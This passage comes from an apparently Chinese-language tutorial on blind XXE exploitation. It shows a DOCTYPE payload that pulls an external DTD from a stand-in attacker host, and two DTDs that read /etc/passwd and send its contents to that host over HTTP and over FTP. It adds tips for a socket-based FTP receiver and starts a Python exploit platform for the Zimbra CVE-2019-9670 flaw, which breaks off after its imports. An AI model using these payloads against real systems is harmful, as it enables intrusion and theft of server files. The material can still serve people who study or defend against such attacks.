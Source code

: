 ```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

malicious.dtd为具体的利用代码，这里有以下两种传输数据的方法

#### (1)通过HTTP协议传输数据

malicious.dtd代码示例：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

参数实体`file`用来保存文件内容

参数实体`eval`用来将文件内容发送至HTTP服务器，通过GET方式，参数x的内容为读取的文件内容

`&#x25`为`%`的HTML实体编码

在程序实现上，可以对GET请求做一个判断，如果满足条件，将参数x的内容提取

#### (2)通过FTP协议传输数据

malicious.dtd代码示例：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://web-attacker.com/%file;'>">
%eval;
%exfiltrate;
```

参数实体`file`用来保存文件内容

参数实体`eval`用来将文件内容发送至FTP服务器，发送的FTP数据中，除了包括读取的文件内容，还有其他的登录数据

在程序实现上，可以通过socket搭建一个简单的FTP服务器，将通信内容进行筛选，获得文件内容

FTP服务器的搭建参考了[xxer](https://github.com/TheTwitchy/xxer/tree/master)，优点是使用socket模拟搭建FTP服务器，方便快捷

但是在程序实现上，需要做一些修改，需要注意的内容如下：

1. str和byte的转换
2. 数据去重，需要将PORT命令的返回状态码设置为500，如果使用200，客户端会再次发送带有`RETR`的结果，导致最后的数据重复
3. 从FTP数据中提取文件内容，只提取带有`CWD`和`RETR`前缀的内容，去除多余的回车换行可以使用代码`print(data, end='')`

## 0x04 开源代码
---

这里以Zimbra XXE漏洞(CVE-2019-9670)为例，开发一个blind XXE利用平台

完整代码如下：

```
#Python3
import sys
import urllib3
import requests
import threading
import socket
from threading import Thread
from http.server import HTTPServer, SimpleHTTPRequestHandler
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


filetoread = ""
xxeplatform_url = ""
xxeplatform_http_port = ""
```